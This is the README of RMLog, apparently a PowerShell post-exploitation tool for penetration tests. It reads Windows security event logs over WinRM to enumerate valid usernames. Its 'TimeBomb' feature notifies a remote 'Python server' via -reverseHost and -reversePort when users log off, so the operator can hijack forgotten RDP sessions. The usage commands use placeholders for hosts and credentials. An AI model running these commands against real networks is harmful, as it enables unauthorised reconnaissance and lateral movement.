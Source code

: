 # RMLog
RMLog is a post exploitation powershell script which it uses windows event logs to gather information about internal network in a pentration testing engagment. It is not only useful for blue teams but also for red teams because some of its functionalities can be used for lateral movement. You will be able to use RMLog not only on a localhost machine but also in a remote machine using WinRM protocol which is by default enabled in a newly Windows versions. 


## Usage

Use can use the following event types:

1) Information EventID (4624) - An account was successfully logged on
2) Information EventID (4625) - An account failed to log on
3) Information EventID (4728) - A member was added to a security-enabled global group 
4) Information EventID (4732) - A member was added to a security-enabled local group
5) Information EventID (4733) - A member was removed from a security-enabled local group
6) Information EventID (4738) - A user account was changed
7) Information EventID (4647) - User initiated logoff
8) Information EventID (4688) - A new process has been created
9) Information EventID (4776) - The domain controller attempted to validate the credentials for an account

### Examples

The RMLog searching into newest 10(default value) entries into all event types.

```
PS> RMLog -user <username> -pass <password> -ip <remote winrm ip>
PS> RMLog -user <username> -pass <password> -fips <file with ips>
PS> RMLog -ip 127.0.0.1
```

Search into specific eventID using -eventID parameter
```
PS> RMLog -user <username> -pass <password> -ip <remote winrm ip> -eventID <eventID>
PS> RMLog -user <username> -pass <password> -fips <file with ips> -eventID <eventID>
PS> RMLog -ip 127.0.0.1 -eventID <eventID> 
```

If you use -newest parameter then you will be able to search into a specific quantity of entries and in many cases your results will be more accurate.

```
PS> RMLog -user <username> -pass <password> -ip <remote winrm ip> -newest <number>
PS> RMLog -user <username> -pass <password> -fips <file with ips> -newest <number>
PS> RMLog -ip 127.0.0.1 -newest <number>
```

Providing the -users flag you will get as a result some valid usernames. The RMLog searches into these event IDs 4624,4625,4776 

```
PS> RMLog -user <username> -pass <password> -ip <remote winrm ip> -users
PS> RMLog -user <username> -pass <password> -fips <file with ips> -users
PS> RMLog -ip 127.0.0.1 -users
```

## Time Bomb 

TimeBomb is useful when you landed on a network host and you want to get a notification when the user is logged of and be able to use an RDP (Remote Desktop) connection. If the user has a remote desktop with another network host and after logging out left the remote desktop open then you could move into the network from an existing forgotten RDP connection. In the background function uses 4624,4647 events and search for current login users. You can create a timer without creating or editing windows schedules and leave the host untouched. You have 3 option when you create a timeBob:

1) now
2) once
3) trigger

Tip1: Give as much as possible amount of entries in -newest parameter. For example: 5000

Tip2: if you want to get notifications only from users who have open RDP connection before logged out the you should uncomment the line 785

The task is going to run now.
```
PS> timeBomb -task now -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

The task is going to run once at specific time.
```
PS> timeBomb -task once -at 15:00 -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```

The task is going to run and stop at specific time.
```
PS> timeBomb -task trigger -at 15:00 -stoptime 16:00 -ip 127.0.0.1 -newest <give a big number> -reverseHost <Python server ip> -reversePort <Python server port>
```


